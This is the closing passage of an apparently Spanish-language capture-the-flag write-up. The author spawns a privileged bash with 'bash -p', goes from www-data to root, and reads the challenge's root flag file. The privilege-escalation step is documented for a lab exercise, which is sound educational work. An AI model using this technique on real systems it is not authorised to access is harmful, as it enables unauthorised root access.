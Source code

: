 Pues sin problemas nos creamos una bash privilegiada (*-p*) y conseguimos ser el usuario root.

```bash
bash-5.2$ bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.2# cd /root
bash-5.2# cat mirasoyroot.txt 
Enhorabuena hacker has conseguido pasarte el reto si eres de los tres primero escribeme por instagram y te pondre en el podio. =)
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!


